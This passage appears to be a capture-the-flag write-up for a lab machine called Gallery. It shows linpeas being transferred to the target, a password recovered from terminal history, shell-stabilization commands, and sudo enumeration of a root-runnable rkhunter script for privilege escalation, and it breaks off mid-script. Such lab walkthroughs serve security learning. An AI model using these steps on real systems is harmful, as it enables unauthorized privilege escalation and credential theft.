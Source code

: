 now we can host a [Server](../../3%20-%20Tags/Hacking%20Concepts/Server.md) and transfer the [Script](../../3%20-%20Tags/Hacking%20Concepts/Script.md) to our target machine (make sure you are in the .sh dir) :

![002e8b449479e423e0ea38c8bfa68fc9.png](../../2%20-%20Resources/Others/Flameshots/002e8b449479e423e0ea38c8bfa68fc9.png)

then we transfer in the tmp dir (we can write there) and run linpeas.sh to find psswd from terminal history : <span style="color: rgb(45, 194, 107);">**b3stpassw0rdbr0xx**</span>

## Stabilize the shell

First thing we do is [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) :

`export TERM=xterm` then `python3 -c 'import pty;pty.spawn("/bin/bash")'` then ctrl+z and `stty raw -echo;fg` and reset + enter

# Privilege Escalation

now we can `su mike` with our passwd and we have the user [Flag](../../3%20-%20Tags/Hacking%20Concepts/Flag.md) :

![03d7e0b15fbf480a95fb5732edeff95d.png](../../2%20-%20Resources/Others/Flameshots/03d7e0b15fbf480a95fb5732edeff95d.png)

for the [Hash](../../3%20-%20Tags/Hacking%20Concepts/Hash.md) of the admin passwd we have to escalate to root users so first we check what sudo command we can run on Gallery :

```
mike@gallery:~$ sudo -l
sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh

```

so we can `more rootkit.sh`  :

```
mike@gallery:/opt$ more rootkit.sh
more rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
```